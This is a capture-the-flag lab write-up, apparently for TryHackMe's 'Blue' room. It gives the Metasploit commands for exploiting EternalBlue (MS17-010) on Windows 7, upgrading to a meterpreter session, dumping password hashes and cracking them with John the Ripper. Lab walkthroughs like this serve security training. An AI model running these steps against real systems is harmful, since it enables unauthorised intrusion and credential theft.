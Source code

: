 ```yaml
---
lineNumbers: True
---
```


# Blue

  

## Initial recon

  

First, scan the host

```sh
nmap -A -T5 <IP>
```

The main expoloitable service found was the `windows 7 professional 7601 Service pack 1`

Related to Eternalblue `MS17-010`

Now lets run the metasploit console

```sh
sudo service postgresql start
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
show targets
set TARGET 0
show options
set rhosts <IP>
exploit
```


Now we have a shell inside the windows machine. Let's look for the flag.


A flag was found inside the documents folder for a person named `Jon`


```sh
C:\Users\Jon\Documents
type flag3.txt
```


## Followup Recon

Let's upgrade the **shell** to a **meterpreter**.

First, background the current shell `CTRL + Z`

There are 2 ways to do this,

1.
    ```sh
    sessions
    # should list out sessions here
    sessions -u 1 # stands for upgrade session 1
    sessions 2 # connect to the new meterpreter session
    ```

2.
    ```sh
    use post/multi/manage/shell_to_meterpreter
    set session <shell_session_ID>
    exploit
    sessions <shell_session_ID>
    ```

Now lets see who I am

```sh
shell
whoami
```


looking at the processes running on the machine and migrating to it

```sh
ps
migrate <process_id>
```

  
Once migrating over to a new process, lets take a look at the hashes

```sh
hashdump
```

Now lets crack them, first background the meterpreter


```sh
use post/windows/gather/hashdump
set session <session_id>
run
```

Lets check what creds looks like
```sh
creds # make sure it outputs the hashdump that it found
```

![image](/images/ctf/tryhackme/blue/creds_example.PNG)

```sh
use auxiliary/analyze/jtr_windows_fast
run
```

submit the flags and now we are done!